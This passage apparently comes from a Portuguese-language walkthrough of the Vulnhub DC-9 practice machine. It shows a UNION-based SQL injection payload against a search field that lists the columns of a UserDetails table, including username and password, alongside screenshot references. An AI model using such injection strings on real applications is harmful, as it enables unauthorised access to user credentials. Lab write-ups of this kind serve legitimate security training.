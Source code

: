 ![](/assets/img/Vulnhub/DC-9/tabelas-users.png)




* Listando as colunas da tabela UserDetails: **ID**, **firstname**, **lastname**, **username**, **password** e **reg_date**

```bash
search=Fred' union select 1,2,3,4,5,column_name from information_schema.columns where table_name = 'UserDetails' #
```

![](/assets/img/Vulnhub/DC-9/colunas-UserDetails-users.png)

